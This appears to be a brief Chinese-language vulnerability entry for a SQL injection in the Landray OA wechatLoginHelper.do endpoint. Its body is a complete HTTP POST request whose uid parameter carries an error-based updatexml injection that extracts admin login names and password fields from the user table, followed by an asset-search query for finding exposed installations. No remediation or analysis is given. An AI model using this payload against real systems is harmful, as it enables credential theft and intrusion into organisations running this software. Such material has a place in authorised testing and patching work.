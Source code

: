 #### 影响范围

蓝凌OA

#### 漏洞概述

蓝凌OA WechatLoginHelper.do_SQL注入

#### 漏洞复现

漏洞POC：

```
POST /third/wechat/wechatLoginHelper.do HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.850.132 Safari/537.36
Content-Length: 254
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

method=edit&openid=&nickname=&image=&uid=123'and updatexml(1,concat('~',(select concat('~',test.fdLoginName,'~',test.fdPassword,'~') from com.landray.kmss.sys.organization.model.SysOrgPerson test where test.fdLoginName like '%25admin12%25'),'~'),1)=1-- '
```

#### 资产测绘

```
app="Landray-OA系统"
```